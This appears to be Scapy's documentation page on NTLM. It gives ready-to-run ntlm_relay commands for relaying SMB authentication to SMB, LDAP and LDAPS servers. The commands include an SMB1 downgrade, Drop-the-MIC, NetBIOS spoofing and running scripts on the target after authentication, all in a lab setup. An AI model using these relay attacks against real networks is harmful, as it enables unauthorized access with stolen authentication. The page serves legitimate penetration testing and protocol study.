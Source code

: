 NTLM
====

Scapy provides dissection & build methods for NTLM and other Windows mechanisms.
In particular, the ``ntlm_relay`` command allows to perform some NTLM relaying attacks.

.. note::

    Read `this article from hackndo <https://en.hackndo.com/ntlm-relay/>`_ to understand how NTLM relay work and what we are trying to achieve here.

Examples
--------


**Requirement: Answer to all netbios requests with the local IP**

.. code::

    netbios_announce(iface="virbr0")

SMB <-> SMB: SMB relay with force downgrade to SMB1
___________________________________________________

.. note::

    ``server_kwargs={"REAL_HOSTNAME":"WIN1"}`` is compulsory on SMB1 if the name that you are spoofing is different from the real name. Set this to avoid getting a ``STATUS_DUPLICATE_NAME``

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"})

.. image:: ../graphics/ntlm/ntlmrelay_smb.png
   :align: center

.. image:: ../graphics/ntlm/ntlmrelay_smb_win1.png
   :align: center

.. image:: ../graphics/ntlm/ntlmrelay_smb_wireshark.png
   :align: center

.. image:: ../graphics/ntlm/ntlmrelay_smb_win2.png
   :align: center


SMB <-> SMB: Perform a SMB2 relay - default
___________________________________________

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0")

.. warning::

    The legitimate client will the validity of the negotiated flags by using a signed IOCTL ``FSCTL_VALIDATE_NEGOTIATE_INFO`` which we cannot fake, therefore losing the connection.
    We however still have created an authenticated illegitimate client to the server, where we won't be performing that check, that we can use. See the case right below.

SMB <-> SMB: Perform a SMB2 relay - scripted
____________________________________________

Because of the note above, we now close the legitimate client & run commands on the server directly.

.. note::

    Setting ``ECHO`` to ``False`` on the server instantly terminates the connection once Authentication is successful.
    We set ``RUN_SCRIPT`` to ``True`` to run a script (in ``DO_RUN_SCRIPT`` in the automaton) once Authentication is successful. Note that ``REAL_HOSTNAME`` is required in this case.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", server_kwargs={"ECHO": False}, client_kwargs={"REAL_HOSTNAME": "WIN1", "RUN_SCRIPT": True})

.. image:: ../graphics/ntlm/ntlmrelay_smb2.png
   :align: center

SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop NEGOEX
_________________________________________________________________

This example points out that the NEGOEX messages are optional: dropping them has no effect on the SMB1 connection.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"PASS_NEGOEX": False, "REAL_HOSTNAME":"WIN1"})

SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop extended security
____________________________________________________________________________

This probably won't work. SMB1 clients abort unextended connections these days.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"}, DROP_EXTENDED_SECURITY=True)

SMB2 <-> LDAP: relay SMB's NTLM to an LDAP server
_________________________________________________

.. note::

    Negotiating LDAP using SMB's credentials does work, but sets the ``SIGN`` field during the NTLM exchange. This causes LDAP to require signing. Read `the HackNDo article <https://en.hackndo.com/ntlm-relay/>` for more info.

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0")

.. image:: ../graphics/ntlm/ntlmrelay_ldap.png
   :align: center

Let's try using DROP-THE-MIC-v1 or DROP-THE-MIC-v2:

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0", DROP_MIC_v1=True)

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0", DROP_MIC_v2=True)

SMB2 <-> LDAPS: relay SMB's NTLM to an LDAPS server
___________________________________________________

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAPS_Client, iface="virbr0")

.. image:: ../graphics/ntlm/ntlmrelay_ldaps.png
   :align: center
